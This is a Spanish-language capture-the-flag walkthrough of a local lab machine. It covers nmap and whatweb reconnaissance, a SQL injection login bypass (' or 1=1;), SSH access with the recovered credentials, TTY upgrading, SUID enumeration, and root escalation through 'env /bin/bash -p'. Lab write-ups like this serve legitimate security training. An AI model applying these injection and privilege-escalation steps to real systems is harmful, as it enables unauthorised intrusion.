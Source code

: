 # Etapa de Reconocimiento

## Nmap

### 1.er Escaneo

Usamos la herramienta *nmap* para descubrir servicios que puedan estar corriendo.
```ruby
nmap -p- --open --min-rate 5000 -sS -vvv 172.17.0.2 -n -Pn -oG allPorts
```

#### Parámetros del Escaneo

 -p-             | Escaneo de todo rango de puertos            
 --open          | Filtrar solo por los puertos abiertos       
 --min-rate 5000 | No permitir paquetes más lentos que 5000p/s 
 -sS             | Usar el método TCP-SYN                      
 -vvv            | Ver la información durante el escaneo       
 172.17.0.2      | La IP                                       
 -n              | No aplicar resolución DNS                   
 -Pn             | Deshabilitar el descubrimiento de Host      
 -oG allPorts    | Exportar el escaneo en formato Grepeable    

#### Output
Vemos que la máquina tiene abierto los puertos *22,80*, en los que concuerdan los servicios *SSH y HTTP*.
```ruby
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

## Reconocimiento WEB
### Whatweb
Usaremos el binario *whatweb $url* para ver información detallada de los servicios que puedan estar corriendo por detrás.
```ruby
whatweb http://172.17.0.2
```

Vemos que tiene una *PasswordField* y el título de la página es *Iniciar Sesión*, podemos intuir que tiene algún login.
```ruby
http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```

### Vista de la WEB
Vemos que sí tiene un login.

![](../../images/Pasted%20image%2020240601180703.png)

# Explotación
## SQLi
Al tener un login, lo primero que se prueba es un *SQLi* para intentar evadir el login.

![](../../images/Pasted%20image%2020240601181435.png)

En el campo USER vamos a insertar `${texto}' or 1=1;`, lo que queremos es que el resultado de la petición sea *True*:

Nosotros ahora estamos enviando esta petición:
`SELECT * FROM Users WHERE User = ${texto}' or 1=1;` (Por ejemplo)

Vemos que va a comprobar si hay un usuario que sea existente con el nombre *${texto}*, seguramente no, pero luego va a comprobar si *1=1*, en este caso sí.

La primera es *falsa* y la segunda es *verdadera*:

*falso* **or** *verdadero* = *verdadero*

Nos permite la evasión del login.

## SSH
Vemos un *Usuario* y una *Contraseña*, por lo tanto, intentaremos entrar por *ssh* (Servicio que sabemos que está corriendo).

![](../../images/Pasted%20image%2020240601183040.png)

Usamos *sshpass* para no tener que introducir la contraseña luego.

![](../../images/Pasted%20image%2020240601183504.png)

**¡¡Tenemos acceso al sistema!!**

### Tratamiento de la TTY

Es muy recomendable hacer un tratamiento de la TTY para poder hacer *[ ^L ]*, *[ ^C ]*, etc.
```ruby
script /dev/null -c bash
```

```ruby
stty raw -echo; fg
```

```ruby
[^Z]
```

```ruby
reset xterm
```

```ruby
export SHELL=bash && export TERM=xterm
```

## Escalada de Privilegios

### Búsqueda de Vulnerabilidades

Vamos a probar a buscar ficheros con *SUID* y usuario propietario *root*.
```ruby
find / -perm -4000 -user root 2>/dev/null
```

```r
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/env
/usr/bin/gpasswd
```

De todos los binarios, el **env** es vulnerable si tiene el *SUID*.

Se puede ver fácilmente en: https://gtfobins.github.io/gtfobins/env/

### Root
En esta misma página nos indica como podemos escalar privilegios con este binario:
```r
env /bin/bash -p
```
![](../../images/Pasted%20image%2020240601185157.png)

**¡¡Ya tenemos privilegios ROOT!!**